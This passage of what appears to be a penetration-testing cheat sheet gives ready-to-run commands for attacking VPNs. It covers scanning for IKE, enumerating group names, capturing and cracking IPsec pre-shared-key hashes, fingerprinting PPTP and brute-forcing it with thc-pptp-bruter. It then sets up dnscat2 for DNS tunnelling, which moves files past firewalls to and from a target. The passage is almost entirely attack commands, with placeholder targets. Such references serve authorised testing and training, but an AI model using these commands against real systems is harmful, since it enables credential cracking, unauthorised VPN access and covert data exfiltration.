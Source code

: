 ```
./udp-protocol-scanner.pl -p ike SUBNET/24
```

##### Step 2: Enumerate group name with IKEForce

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

##### Step 3: Use ike-scan to capture the PSK hash

```
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

##### Step 4: Use psk-crack to crack the PSK hash 

```
psk-crack hash-file.txt
```

Some more advanced psk-crack options below: 

```
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```

#### PPTP Hacking

Identifying PPTP, it listens on TCP: 1723

##### NMAP PPTP Fingerprint:

```
nmap –Pn -sV -p 1723 TARGET(S)
```

##### PPTP Dictionary Attack

```
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```


### DNS Tunneling 

Tunneling data over DNS to bypass firewalls.

dnscat2 supports "download" and "upload" commands for getting files (data and programs) to and from the target machine.

#### Attacking Machine 

Installtion:
```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```
